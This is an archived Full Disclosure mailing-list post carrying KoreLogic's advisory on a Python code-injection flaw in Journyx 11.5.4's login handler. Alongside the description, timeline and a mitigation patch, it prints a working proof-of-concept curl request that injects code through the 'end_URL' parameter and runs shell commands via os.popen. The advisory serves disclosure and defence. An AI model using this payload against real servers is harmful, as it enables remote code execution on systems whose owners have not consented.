 ```yaml
---
title: KL-001-2024-008: Journyx Authenticated Remote Code Execution
url: https://seclists.org/fulldisclosure/2024/Aug/6
source: Full Disclosure
date: 2024-08-08
fetch_date: 2025-10-06T18:08:49.892912
---
```


# KL-001-2024-008: Journyx Authenticated Remote Code Execution

[![](/shared/images/nst-icons.svg#menu)](#menu)
![](/shared/images/nst-icons.svg#close)
[![Home page logo](/images/sitelogo.png)](/)

[Nmap.org](https://nmap.org/)
[Npcap.com](https://npcap.com/)
[Seclists.org](https://seclists.org/)
[Sectools.org](https://sectools.org)
[Insecure.org](https://insecure.org/)

![](/shared/images/nst-icons.svg#search)

[![fulldisclosure logo](/images/fulldisclosure-logo.png)](/fulldisclosure/)

## [Full Disclosure](/fulldisclosure/) mailing list archives

[![Previous](/images/left-icon-16x16.png)](5)
[By Date](date.html#6)
[![Next](/images/right-icon-16x16.png)](7)

[![Previous](/images/left-icon-16x16.png)](5)
[By Thread](index.html#6)
[![Next](/images/right-icon-16x16.png)](7)

![](/shared/images/nst-icons.svg#search)

# KL-001-2024-008: Journyx Authenticated Remote Code Execution

---

*From*: KoreLogic Disclosures via Fulldisclosure <fulldisclosure () seclists org>
*Date*: Wed, 7 Aug 2024 18:52:18 -0500

---

```
KL-001-2024-008: Journyx Authenticated Remote Code Execution

Title: Journyx Authenticated Remote Code Execution
Advisory ID: KL-001-2024-008
Publication Date: 2024.08.07
Publication URL: https://korelogic.com/Resources/Advisories/KL-001-2024-008.txt

1. Vulnerability Details

     Affected Vendor: Journyx
     Affected Product: Journyx (jtime)
     Affected Version: 11.5.4
     Platform: GNU/Linux
     CWE Classification: CWE-94: Improper Control of Generation of Code
                         ('Code Injection'), CWE-95: Improper Neutralization
                         of Directives in Dynamically Evaluated Code
                         ('Eval Injection')
     CVE ID: CVE-2024-6891

2. Vulnerability Description

     Attackers with a valid username and password can exploit
     a python code injection vulnerability during the natural
     login flow.

3. Technical Description

     When utilizing a username and password to authenticate to
     Journyx via the web interface, an HTTP request is sent to
     "wtlogin.pyc" containing the credentials. Upon a successful
     login, the user is redirected to "wte.pyc" or the URL specified
     in the "end_URL" body parameter if one is supplied.

     An additional condition is present, however. If the
     "end_URL" value is over 1,000 characters, the value is instead
     interpolated into a python "import" statement which is passed
     into the "exec()" function, thereby executing arbitrary code.

     Code snippet from "wtlogin.pyc":

     finalURL = end_URL + '.pyc?' + genlib.URLEncodeParams(params)
     if len(finalURL) < 1000:
         raise genlib.HTTP302Found(finalURL)
     else:
         exec('import %s; %s.main()' % (end_URL, end_URL))

     The "params" variable is derived from the query parameters
     included in the login request, so the size of "finalURL"
     is trivial to inflate.

4. Mitigation and Remediation Recommendation

     The vendor reports that this issue was remediated in Journyx
     v12.0.0, which is the first wholly cloud-hosted version of
     this product.

     For self-hosted instances of JournyX, additional security
     measures (such as input sanitization) can be added by monkey
     patching the PYC file responsible for handling request
     parameters (mycgi.pyc).

     1) Rename "mycgi.pyc" to an alternative name, e.g. mycgi_original.pyc.
          $ mv wt_tar/pi/pylib/wtlib/mycgi.py wt_tar/pi/pylib/wtlib/mycgi_original.py

     2) Create a file named "mycgi.py" in the same directory.
          $ touch wt_tar/pi/pylib/wtlib/mycgi.py

     3) Insert the following code into the newly created "mycgi.py"

          from mycgi_original import *
          from html import escape

          def patch():
              pdata = _parse()

              # force the value of "end_URL" to always be "wte"
              if pdata.get('end_URL'): pdata['end_URL'] = ['wte']

              # sanitize user-controlled error messages
              for parameter in ['error', 'error_description']:
                  if not pdata.get(parameter): continue
                  pdata[parameter] = [escape(value) for value in pdata[parameter]]

              return pdata

          _parse = parse
          parse  = patch

     Once these changes have been made, the JournyX native "mycgi.parse()"
     function will be overwritten with the "patch()" function located in the
     "mycgi.py" file. Relevant to this advisory, the patch provided above
     will force the "end_URL" parameter to always have a value of "wte".

5. Credit

     This vulnerability was discovered by Jaggar Henry of KoreLogic, Inc.

6. Disclosure Timeline

     2024.01.31 - KoreLogic notifies Journyx support of the intention to
                  report vulnerabilities discovered in the licensed,
                  on-premises version of the product.
     2024.01.31 - Journyx acknowledges receipt.
     2024.02.02 - KoreLogic requests a meeting with Journyx support to share
                  vulnerability details.
     2024.02.07 - KoreLogic reports vulnerability details to Journyx.
     2024.02.09 - Journyx responds that this vulnerability has been remediated
                  in the cloud-hosted version of the product.
     2024.02.21 - KoreLogic offers to test the cloud version to confirm
                  the fix; no response.
     2024.07.01 - KoreLogic notifies Journyx of impending public disclosure.
     2024.07.09 - Journyx confirms version number of the remediation.
     2024.08.07 - KoreLogic public disclosure.

7. Proof of Concept

    By leveraging the existing "web" python module, it is possible
    to see the output of shell commands as returned by "os.popen()".

    [attacker@box]$ HOST='redacted.com'; PORT='8080'; USERNAME='employee'; PASSWORD='password123'; COMMAND='id'; \
                    curl -x http://localhost:8080 -X POST \
```

                         -d
"wtusername=$USERNAME&wtpassword=$PASSWORD&end\_URL=os,web%0aweb.response.text%3dos.popen('$COMMAND').read()#&timestamp=9999999999&pageid=$RANDOM"
\

```
                         -H 'Cookie: wtsession=foobar' \
"http://$HOST:$PORT/jtcgi/wtlogin.pyc?z=$(printf 'Z%.0s' {1..1000})"
```

    uid=1000(foo) gid=1000(foo)
groups=1000(foo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)

```
    [attacker@box]$

The contents of this advisory are copyright(c) 2024
KoreLogic, Inc. and are licensed under a Creative Commons
Attribution Share-Alike 4.0 (United States) License:
http://creativecommons.org/licenses/by-sa/4.0/

KoreLogic, Inc. is a founder-owned and operated company with a
proven track record of providing security services to entities
ranging from Fortune 500 to small and mid-sized companies. We
are a highly skilled team of senior security consultants doing
by-hand security assessments for the most important networks in
the U.S. and around the world. We are also developers of various
tools and resources aimed at helping the security community.
https://www.korelogic.com/about-korelogic.html

Our public vulnerability disclosure policy is available at:
https://korelogic.com/KoreLogic-Public-Vulnerability-Disclosure-Policy
```

**Attachment:
[OpenPGP\_signature.asc](att-6/OpenPGP_signature_asc.bin)**
*Description:* OpenPGP digital signature

```
_______________________________________________
Sent through the Full Disclosure mailing list
https://nmap.org/mailman/listinfo/fulldisclosure
Web Archives & RSS: https://seclists.org/fulldisclosure/
```

---

[![Previous](/images/left-icon-16x16.png)](5)
[By Date](date.html#6)
[![Next](/images/right-icon-16x16.png)](7)

[![Previous](/images/left-icon-16x16.png)](5)
[By Thread](index.html#6)
[![Next](/images/right-icon-16x16.png)](7)

### Current thread:

* **KL-001-2024-008: Journyx Authenticated Remote Code Execution** *KoreLogic Disclosures via Fulldisclosure (Aug 07)*

![](/shared/images/nst-icons.svg#search)

## [Nmap Security Scanner](https://nmap.org/)

* [Ref Guide](https://nmap.org/book/man.html)* [Install Guide](https://nmap.org/b...